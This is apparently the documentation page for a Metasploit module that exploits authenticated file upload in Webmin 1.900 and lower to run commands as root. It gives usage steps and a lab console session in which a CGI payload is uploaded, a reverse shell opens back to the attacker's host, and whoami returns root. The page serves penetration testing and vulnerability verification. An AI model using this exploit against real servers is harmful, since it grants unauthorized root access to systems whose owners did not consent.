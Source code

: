 ## Description

This module exploits an arbitrary command execution vulnerability in Webmin 1.900 and lower versions. Any user authorized to the "Upload and Download" module can execute arbitrary commands with root privileges. In addition, if the 'Running Processes' (proc) privilege is set the user can accurately determine which directory to upload to. Webmin application files can be written/overwritten, which allows remote code execution. The module has been tested successfully with Webmin 1.900.

## Vulnerable Application

This module has been tested with [Webmin 1.900](https://sourceforge.net/projects/webadmin/files/webmin/1.900/)

## Options

**GUESSUPLOAD**

Use default installation path `/usr/share/webmin/`

## Verification Steps

1. `use exploit/unix/webapp/webmin_upload_exec`
2. `set rhosts <rhost>`
3. `set username <username>`
4. `set password <password>`
5. `exploit`

## Scenarios

### Tested Webmin 1.900 on Ubuntu 18.04 x64

```
msf > use exploit/unix/webapp/webmin_upload_exec
msf exploit(unix/webapp/webmin_upload_exec) > set rhosts 172.22.222.154
rhosts => 172.22.222.154
msf exploit(unix/webapp/webmin_upload_exec) > set username unixuser
username => unixuser
msf exploit(unix/webapp/webmin_upload_exec) > set password unixuser
password => unixuser
msf exploit(unix/webapp/webmin_upload_exec) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[+] Session cookie: 6215747dab393701e0acbb9ac5b7c699
[*] Target URL => https://172.22.222.154:10000
[*] Searching for directory to upload...
[-] Failed to determine webmin share directory
[-] Set GUESSUPLOAD to attempt upload to a default location
[*] Exploit completed, but no session was created.
msf exploit(unix/webapp/webmin_upload_exec) > set guessupload true
guessupload => true
msf exploit(unix/webapp/webmin_upload_exec) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[+] Session cookie: 46cbd354e4532fe55d1a462db128905c
[*] Target URL => https://172.22.222.154:10000
[*] Searching for directory to upload...
[!] Could not determine upload directory. Using /usr/share/webmin/
[+] File gxvgsiji.cgi was successfully uploaded.
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (172.22.222.136:4444 -> 172.22.222.154:38960) at 2019-03-14 13:40:56 -0500
[+] Deleted gxvgsiji.cgi

uname -a 
Linux ubuntu 4.18.0-16-generic #17~18.04.1-Ubuntu SMP Tue Feb 12 13:35:51 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
whoami
root
exit
```
